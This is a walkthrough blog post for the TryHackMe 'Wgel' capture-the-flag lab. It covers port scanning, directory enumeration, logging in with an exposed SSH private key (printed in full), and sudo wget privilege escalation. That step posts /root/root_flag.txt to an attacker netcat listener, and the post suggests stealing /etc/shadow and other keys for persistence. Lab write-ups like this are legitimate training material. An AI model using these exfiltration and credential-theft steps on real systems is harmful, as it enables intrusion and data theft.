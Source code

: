 ```yaml
---
title: "Simple Boot to Root: Wgel CTF Walkthrough"
slug: wgel-ctf
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


This is a straightforward boot-to-root walkthrough of the [Wgel](https://tryhackme.com/room/wgelctf) CTF found on [TryHackMe](https://tryhackme.com). The objective of this room is to perform active reconnaissance on a web server, obtain credentials, and log in using an exposed SSH key. The final step involves elevating to root by employing a privilege escalation technique with the `wget` binary.

### Step 1: What's Out There?

```plaintext
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCpgV7/18RfM9BJUBOcZI/eIARrxAgEeD062pw9L24Ulo5LbBeuFIv7hfRWE/kWUWdqHf082nfWKImTAHVMCeJudQbKtL1SBJYwdNo6QCQyHkHXslVb9CV1Ck3wgcje8zLbrml7OYpwBlumLVo2StfonQUKjfsKHhR+idd3/P5V3abActQLU8zB0a4m3TbsrZ9Hhs/QIjgsEdPsQEjCzvPHhTQCEywIpd/GGDXqfNPB0Yl/dQghTALyvf71EtmaX/fsPYTiCGDQAOYy3RvOitHQCf4XVvqEsgzLnUbqISGugF8ajO5iiY2GiZUUWVn4MVV1jVhfQ0kC3ybNrQvaVcXd
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDCxodQaK+2npyk3RZ1Z6S88i6lZp2kVWS6/f955mcgkYRrV1IMAVQ+jRd5sOKvoK8rflUPajKc9vY5Yhk2mPj8=
|   256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJhXt+ZEjzJRbb2rVnXOzdp5kDKb11LfddnkcyURkYke
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/9%OT=22%CT=1%CU=30945%PV=Y%DS=4%DC=T%G=Y%TM=64AB91B3
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%II=I%TS=A)SEQ(SP=10
OS:4%GCD=1%ISR=109%TI=Z%CI=RD%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%TS=A)SEQ(S
OS:P=107%GCD=1%ISR=109%TI=Z%CI=I%TS=A)SEQ(SP=107%GCD=1%ISR=109%TI=Z%CI=RD%T
OS:S=A)OPS(O1=M509ST11NW7%O2=M509ST11NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=
OS:M509ST11NW7%O6=M509ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=6
OS:8DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M509NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A
OS:=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T5(R=N)T5(R=Y%DF=Y
OS:%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=N)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=O%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=O%F=AR%O=%RD=0
OS:%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=1
OS:64%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 47.132 days (since Tue May 23 19:55:59 2023)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We are examining two ports: `22` and `80`. Given that we can't do much with SSH unless we attempt to brute force it, and without a username, we would be relentlessly attacking this service, wasting time and probably making no progress. Therefore, the best approach is to enumerate the webserver to find a way in.

Default Apache2 Landing Page:

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102430397/7966773b-6539-41dc-aeaa-533458969c49.png){: .center-image }

The source code reveals a potential username: `Jessie`

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102478196/1cbd7a70-e967-45e2-8919-08317e1dc565.png){: .center-image }

### Step 2: Enumerate Using Gobuster

```bash
gobuster dir --url http://10.10.56.178/sitemap -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 100 -q
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102543441/959ab724-51fd-49f6-a135-4ba7216efe22.png){: .center-image }

Let's navigate to [`http://10.10.56.178/sitemap/.ssh/`](http://10.10.56.178/sitemap/.ssh/)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102577951/43dd3297-168f-4074-a32b-b99ddfd7788a.png){: .center-image }

```plaintext
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e34Fb98z1UFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```

Excellent! An unsecured SSH key without a passphrase. We can easily generate our `id_rsa` key, set the permissions, and log in to the web server using this.

### Step 3: Log in

Copy and paste the key into a text file and name it `id_rsa`. Adjust the permissions:

```bash
sudo chmod 600 id_rsa
```

Log in:

```bash
ssh -i id_rsa jessie@10.10.56.178
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102825560/6035435a-f341-4528-8f98-1d7ab5ffa6b9.png){: .center-image }

Our first flag can be found at this location:

```bash
/home/jessie/Documents
```

### Step 4: Privesc and Root

Now that we have a foothold on the server, let's explore what we can use to elevate our privileges. First, I like to check what the user is allowed to run as `sudo`. We can do this by typing:

```bash
sudo -l
```

Looks like we can use the binary:

```bash
/usr/bin/wget
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692102993678/fac3ffc0-02ac-4f07-aedc-b4cca60b1507.png){: .center-image }

Upon seeing something like this, your mind should instantly consider privilege escalation. [GTFObins](https://gtfobins.github.io/) is a valuable resource for finding elevation techniques.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103102039/6243510d-5697-42ff-90bd-6fdb2c9af820.png){: .center-image }

We can transmit content to our attack box with `sudo` privileges, effectively granting us access to view materials that would otherwise be restricted. We can easily use `wget` to display the root flag.

Start a netcat listener:

```bash
nc -lvnp 80
```

From the web server:

```bash
sudo /usr/bin/wget http://10.13.28.215:80 --post-file=/root/root_flag.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103281913/d6604069-0fd0-46bd-9cd4-140bbcc6eb0c.png){: .center-image }

Boom, we've obtained the root flag. From here, we can use this binary to acquire other `SSH` keys, the `/etc/shadow` file, and more to help us maintain persistence.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692103417697/0d0e1534-594d-4cfb-b42a-fff74ab2495a.jpeg){: .center-image }